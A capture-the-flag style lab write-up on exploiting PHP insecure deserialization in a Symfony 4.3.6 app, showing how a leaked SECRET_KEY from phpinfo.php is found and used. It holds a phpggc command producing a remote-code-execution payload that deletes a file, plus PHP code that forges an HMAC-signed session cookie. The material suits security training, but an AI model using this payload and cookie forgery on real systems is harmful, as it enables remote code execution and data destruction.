






# Exploiting PHP deserialization with a pre-built gadget chain
# Objective
This lab has a serialization-based session mechanism that uses a signed cookie. It also uses a common PHP framework. Although you don't have source code access, you can still exploit this lab's insecure deserialization using pre-built gadget chains.

To solve the lab, identify the target framework then use a third-party tool to generate a malicious serialized object containing a remote code execution payload. Then, work out how to generate a valid signed cookie containing your malicious object. Finally, pass this into the website to delete the `morale.txt` file from Carlos's home directory.

You can log in to your own account using the following credentials: `wiener:peter`

# Solution
## Analysis
The session cookie on this webiste holds serialized data. File `phpinfo.php` is accessible for everyone. It contains `SECRET_KEY`.
||
|:--:| 
| *Session cookie* |
||
| *PHP info* |

## Exploitation
### Framework identification
Cookie value is signed using symmetric algorithm `hmac`. The secret is visible in `/cgi-bin/phpinfo.php`. When attacker tries to modify cookie without signing it website returns error information revealing information about used framework and its versoin - `Symfony Version: 4.3.6`.

||
|:--:| 
| *Request with modified, not signed cookie* |
| Framework information |

### Exploiting PHP deserialization with a pre-built gadget chain
In order to delete `morale.txt` from `/home/carlos` directory attacker can create gadget chain payload using [phpggc tool](https://github.com/ambionics/phpggc). This serialized payload can grant attacker remote code execution (RCE).


Command:
```bash
./phpggc Symfony/RCE4 exec 'rm /home/carlos/morale.txt' | base64 -w 0
```

Signing cookie:
```php
<?php
$object = "OBJECT-GENERATED-BY-PHPGGC";
$secretKey = "LEAKED-SECRET-KEY-FROM-PHPINFO.PHP";
$cookie = urlencode('{"token":"' . $object . '","sig_hmac_sha1":"' . hash_hmac('sha1', $object, $secretKey) . '"}');
echo $cookie;
```

||
|:--:| 
| *Payload generation* |
||
| *Signing payload with leakd SECRET_KEY * |
||
| *Deletion of target file* |


